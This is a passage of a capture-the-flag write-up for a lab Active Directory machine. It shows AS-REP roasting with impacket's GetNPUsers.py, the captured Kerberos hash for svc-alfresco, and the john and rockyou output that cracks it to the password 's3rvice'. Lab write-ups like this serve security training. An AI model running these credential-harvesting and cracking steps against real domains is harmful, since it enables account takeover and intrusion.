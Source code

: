 We create a file with the users.

    :::text
    cat users.txt
    sebastien
    lucinda
    svc-alfresco
    andy
    mark
    santi

In order to use [impacket's](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) `GetNPUsers.py`
we need to add an entry in our `/etc/hosts`.

    :::text
    cat /etc/hosts
    127.0.0.1	localhost
    127.0.1.1	kalili
    10.10.10.161	htb.local
    10.10.10.161	forest.htb.local

And we launch [impacket's](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) `GetNPUsers.py`.

    :::text
    python GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -format john
    Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

    [-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
    $krb5asrep$svc-alfresco@HTB.LOCAL:bcd2217d8b5e6884e25d8b2860dd0380$40be3fda5f8fd984f9c576d5dfa33f37effc76b0fbff3ae28a747825c3559bfea4a6a23ad1c0add8ad61d149a5ccc2e79919de9b78e8720b3dc79af96364fb6f5d7e0235eb83850765023a30de6d172c82ec751f50f4c6e4971cb54a46e16ec2d3a41b9f44b6b8e85782d958c3ff665baa5b29d8c5b4516ec1b63f7c63b55c5fa74b7b1b5fe1fa04cddac6812d0ef37f1e25ab8e8005fe7f6ce949786435c41a2395e73e9bf1de57e3a2da12a00f9da25408e92a37a5ed2dacdbbf3846963000f7b2f8d337d152345a9cc7358b5d45224abeac179f081b9b329e549659da00ac791a7fde1a8c
    [-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] invalid principal syntax

We crack the password using john and the rockyou dictionary. The user's
password is "s3rvice".

    :::text
    john hashes -w=~/tools/password_lists/rockyou.txt
    Warning: detected hash type "krb5asrep", but the string is also recognized as "krb5asrep-aes-opencl"
    Use the "--format=krb5asrep-aes-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:02 11.59% (ETA: 11:52:21) 0g/s 913958p/s 913958c/s 913958C/s eddie707..eck1956
    s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
    1g 0:00:00:04 DONE (2019-10-24 11:52) 0.2237g/s 914040p/s 914040c/s 914040C/s s401413..s3r1bu
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
